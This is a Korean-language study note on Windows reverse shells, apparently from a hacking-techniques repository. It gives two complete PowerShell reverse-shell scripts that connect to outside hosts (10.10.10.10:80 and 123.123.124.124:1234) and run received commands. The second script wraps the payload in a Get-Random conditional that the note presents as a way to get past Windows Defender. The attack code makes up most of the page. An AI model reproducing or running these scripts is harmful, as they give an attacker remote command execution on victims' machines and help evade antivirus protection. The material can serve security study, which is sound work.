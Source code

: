 <br/><br/>

### Windows Reverse Shell
* 윈도우도 리눅스와 같이 리버스 쉘 공격이 가능하지만, 아래와 같은 차이점이 존재함
    | 운영체제 | 비교 |
    |:---:|------|
    | Linux | 기본적으로 명령어와 스크립트를 실행하는데 있어 어떠한 제약도 존재하지 않음 |
    | Windows | 윈도우 디펜터(Windows Defender)가 악성 스크립트를 감지하고 이를 실행하지 않음 ***→ 우회 필요*** |

<br/>

* 윈도우 환경의 리버스 쉘 스크립트 예시
    ```powershell
    # Nikhil SamratAshok Mittal: http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html

    $client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    ```
    - ```"This script contains malicious content and has been blocked by your antivirus software"``` 메시지와 함께 실행에 실패함 <br/> &nbsp;&nbsp; ↳ 스크립트에 악성 데이터가 있어 윈도우 디펜더에 의해 차단되었다는 메시지가 출력됨
    - 📌 Windows Defender 우회
        + 윈도우 디펜더는 악성 코드가 운영체제에서 실행되는 것을 방지함 *→ 리버스 쉘을 통한 공격을 수행하기 위해서는 **윈도우 디펜더 우회가 필수적**임*
        + 리버스 쉘 스크립트를 실행하는 우회 코드
            ```powershell
            $client = New-Object System.Net.Sockets.TCPClient("123.123.124.124",1234);
            $x = Get-Random; # Get-Random 함수를 이용하여 무작위 값을 생성함
            if ($x -ge 1) { # 랜덤으로 생성한 값이 1보다 큰 값인지 확인한 후에 리버스 셸 코드를 실행함
                $stream = $client.GetStream();
                [byte[]]$bytes = 0..65535|%{0};
                while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
                    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
                    $sendback = (iex $data 2>&1 | Out-String );
                    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
                    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
                    $stream.Write($sendbyte,0,$sendbyte.Length);
                    $stream.Flush()
                };
                $client.Close();
            } else {
                $client.Close();
            }
            ```
            - ```Get-Random``` 함수를 이용하여 생성한 무작위 값이 1보다 큰 값인지 확인한 후에 리버스 쉘 코드를 실행함 <br/> &nbsp;&nbsp; → 윈도우 디펜더는 이 조건문이 **함수 실행 결과에 영향을 받는 것으로 판단**하여 스크립트 실행을 허용함
            - 우회 스크립트가 성공적으로 동작하면 리버스 쉘이 동작함 → 서버에 시스템 명령어를 실행시키고 그 결과를 확인할 수 있음
